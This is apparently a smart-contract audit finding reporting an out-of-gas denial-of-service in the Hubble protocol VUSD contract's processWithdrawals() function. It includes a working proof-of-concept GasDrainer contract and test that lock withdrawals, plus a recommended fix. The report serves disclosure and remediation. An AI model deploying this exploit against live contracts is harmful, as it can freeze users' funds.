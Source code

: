 0x3e84fa45

high

# Out of Gas DoS on processWithdrawals() make VUSD funds non-withdrawable

## Summary
During a `processWithdrawals()` execution, a malicious actor can consume the majority of the gas through a fallback and leave the remaining unforwarded gas insufficient to complete execution. This would force the `processWithdrawals()` to revert leaving the user's funds locked in `VUSD`.
## Vulnerability Detail
Users burn their `VUSD` to queue up a withdrawal transaction with the burned amount into the withdrawal queue, and `processWithdrawals()` executes the withdrawals along the queue sending the withdrawal amounts through an unprotected low-level call.

```Solidity
 function processWithdrawals() external override whenNotPaused nonReentrant {
        uint reserve = address(this).balance;
        require(reserve >= withdrawals[start].amount, 'Cannot process withdrawals at this time: Not enough balance');
        uint i = start;
        while (i < withdrawals.length && (i - start) < maxWithdrawalProcesses) {
            Withdrawal memory withdrawal = withdrawals[i];
            if (reserve < withdrawal.amount) {
                break;
            }

            (bool success, bytes memory data) = withdrawal.usr.call{value: withdrawal.amount}("");
            if (success) {
                reserve -= withdrawal.amount;
            } else {
                emit WithdrawalFailed(withdrawal.usr, withdrawal.amount, data);
            }
            i += 1;
        }
        // re-entracy not possible, hence can update `start` at the end
        start = i;
    }
```

This low-level call has no gas limit, and therefore based on [EIP-150](https://eips.ethereum.org/EIPS/eip-150) forwards `63/64` available gas to the contract address being called. We can therefore take advantage through a fallback and spend the forwarded gas, leaving `1/64` of the initial gas to finish the `processWithdrawals()` execution.

Depending on the block gas limit and the length of the remaining queue, `1/64` of the gas will or won't be enough to completely halt execution. An attacker could just queue up several withdrawal transactions, which would spend `63/64` of the remaining `1/64` to make sure that the `processWithdrawals()` reverts.

```Solidity
   // SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.9;

import "../Utils.sol";


contract GasDrainer {
    receive() external payable {
        useGas();
    }
    function useGas() internal {
        uint256 i = 0;
        while (gasleft() > 1000) {
            i++;
        }
    }
    function withdraw(address target, uint256 amount) public {
        IVUSD(target).withdraw(amount / 5);
        IVUSD(target).withdraw(amount / 5);
        IVUSD(target).withdraw(amount / 5);
        IVUSD(target).withdraw(amount / 5);
        IVUSD(target).withdraw(amount / 5);
    }
}


contract VUSDDos is Utils {
    event WithdrawalFailed(address indexed trader, uint amount, bytes data);

    function setUp() public {
        setupContracts();


    }
    /*
        remember you can place multiple gas drainers after each other.
        since each external call passes on 63 / 64, after just 4 calls you have

        (1 / 64)^4 = 1/16777216  of the original gas left

        For a gas limit of 30 mio that would be 1.7 gas left. Not enough for an external call.

    */

    function testUseUpAllGas() public {
        uint256 amount = 25e6;

        // gas drainer contract stop processing withdrawals
        GasDrainer drainer = new GasDrainer();
        mintVusd(address(drainer), amount);
        mintVusd(address(this), amount);
        drainer.withdraw(address(husd), amount);
        husd.withdraw(amount);

        // withdrawal request fails
        // vm.expectRevert(bytes(""));
        husd.processWithdrawals{gas: 1_000_000}();
    }

}

```
## Impact
This would render the `processWithdrawals()` useless, locking user funds in `VUSD`.
## Code Snippet
https://github.com/hubble-exchange/hubble-protocol/blob/d89714101dd3494b132a3e3f9fed9aca4e19aef6/contracts/VUSD.sol#L65C4-L85C6
## Tool used

Manual Review

## Recommendation
Setting a reasonable and proportional gas limit for each low-level call, so that no single transaction consumes all gas.
Ultimately, changing to a pull pattern.